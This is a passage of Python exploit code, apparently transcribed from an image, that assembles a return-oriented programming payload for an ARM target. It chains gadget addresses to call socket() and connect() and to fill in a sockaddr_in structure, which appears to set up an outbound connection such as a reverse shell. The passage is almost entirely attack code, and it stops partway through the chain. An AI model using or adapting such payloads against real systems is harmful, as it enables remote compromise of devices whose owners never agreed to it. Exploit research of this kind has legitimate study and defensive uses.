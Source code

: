 ```python
        payload += b'B'*16
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(g_add_r1_1_with_r0_cmp_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_add_r0_2_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(g_pop_r3_ea)
        payload += p32(stack_dummy_ea) # r3
        payload += p32(g_mov_r2_0_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(socket_ea) # csock = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
                                  # (will pop {r7, pc})
        payload += p32(0xdeadbeef) # r7
        payload += p32(g_pop_r4_ea)
        payload += p32(stack_csock_ea) # r4
        payload += p32(g_str_r0_r4_ea)
        # fix struct sockaddr_in
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_mov_r0_0_ea)
        payload += p32(stack_sin_ea+1) # r4
        payload += p32(g_strb_r0_r4_ea)
        payload += p32(stack_sin_ea+8) # r4
        payload += p32(g_str_r0_r4_ea)
        payload += p32(stack_sin_ea+12) # r4
        payload += p32(g_str_r0_r4_ea)
        # prepare args in regs
        payload += p32(stack_csock_ea) # r4
        payload += p32(g_pop_r1_r2_r3_ea)
        payload += p32(stack_sin_ea-1) # r1
        payload += p32(0xffffffff) # r2
        payload += p32(stack_dummy_ea) # r3
        payload += p32(g_mov_r0_0_ea)
        payload += p32(0xdeadbeef) # r7
        payload += p32(g_add_r1_1_with_r0_cmp_ea)
        payload += p32(stack_dummy_ea) # r4
        payload += p32(g_mov_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_add_r2_1_ea)
        payload += p32(0xdeadbeef) # r4
        for _ in range(16):
            payload += p32(g_add_r2_1_ea)
            payload += p32(stack_csock_ea) # r4
        payload += p32(g_ldr_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(connect_ea) # connect(csock, sin, 16) 
                                   # (will pop {r3-r7, pc})
        payload += p32(0xdeadbeef) # r3
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(0xdeadbeef) # r7 (addr to patch = ) 
        payload += p32(g_mov_r1_0_ea)
        payload += p32(stack_csock_ea) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(g_ldr_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
```